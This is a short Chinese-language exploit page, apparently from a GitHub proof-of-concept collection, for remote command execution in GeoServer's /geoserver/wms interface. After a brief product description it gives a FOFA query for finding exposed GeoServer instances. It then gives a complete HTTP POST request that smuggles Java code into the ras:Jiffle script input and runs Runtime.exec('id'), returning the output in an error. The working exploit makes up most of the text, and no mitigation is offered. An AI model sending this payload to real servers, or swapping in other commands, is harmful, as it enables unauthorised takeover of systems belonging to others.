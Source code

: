 ## GeoServer系统wms接口存在远程命令执行漏洞

GeoServer是OGC Web服务器规范的J2EE实现，利用GeoServer可以方便地发布地图数据，允许用户对要素数据进行更新、删除、插入操作，通过GeoServer可以比较容易地在用户之间迅速共享空间地理信息。GeoServer /geoserver/wms接口存在远程命令执行漏洞



## fofa

```
app="GeoServer"
```
/geoserver
![image](https://github.com/user-attachments/assets/65ccfb4d-24b8-44ac-ab80-d6f53e68b7ce)


## poc

```bash
POST /geoserver/wms HTTP/1.1
Content-Type: application/xml
Accept: */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Host: xxx.xxx.xxx.xxx
Content-Length: 1967
Expect: 100-continue
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
  <wps:Execute version="1.0.0" service="WPS" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns="http://www.opengis.net/wps/1.0.0" xmlns:wfs="http://www.opengis.net/wfs" xmlns:wps="http://www.opengis.net/wps/1.0.0" xmlns:ows="http://www.opengis.net/ows/1.1" xmlns:gml="http://www.opengis.net/gml" xmlns:ogc="http://www.opengis.net/ogc" xmlns:wcs="http://www.opengis.net/wcs/1.1.1" xmlns:xlink="http://www.w3.org/1999/xlink" xsi:schemaLocation="http://www.opengis.net/wps/1.0.0 http://schemas.opengis.net/wps/1.0.0/wpsAll.xsd">
    <ows:Identifier>ras:Jiffle</ows:Identifier>
    <wps:DataInputs>
      <wps:Input>
        <ows:Identifier>coverage</ows:Identifier>
        <wps:Data>
          <wps:ComplexData mimeType="application/arcgrid"><![CDATA[ncols 720 nrows 360 xllcorner -180 yllcorner -90 cellsize 0.5 NODATA_value -9999  316]]></wps:ComplexData>
        </wps:Data>
      </wps:Input>
      <wps:Input>
        <ows:Identifier>script</ows:Identifier>
        <wps:Data>
          <wps:LiteralData>dest = y() - (500); // */ public class Double {    public static double NaN = 0;  static { try {  java.io.BufferedReader reader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("id").getInputStream())); String line = null; String allLines = " - "; while ((line = reader.readLine()) != null) { allLines += line; } throw new RuntimeException(allLines);} catch (java.io.IOException e) {} }} /**</wps:LiteralData>
        </wps:Data>
      </wps:Input>
      <wps:Input>
        <ows:Identifier>outputType</ows:Identifier>
        <wps:Data>
          <wps:LiteralData>DOUBLE</wps:LiteralData>
        </wps:Data>
      </wps:Input>
    </wps:DataInputs>
    <wps:ResponseForm>
      <wps:RawDataOutput mimeType="image/tiff">
        <ows:Identifier>result</ows:Identifier>
      </wps:RawDataOutput>
    </wps:ResponseForm>
  </wps:Execute>
```

![image-20240523190346640](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405231903731.png)
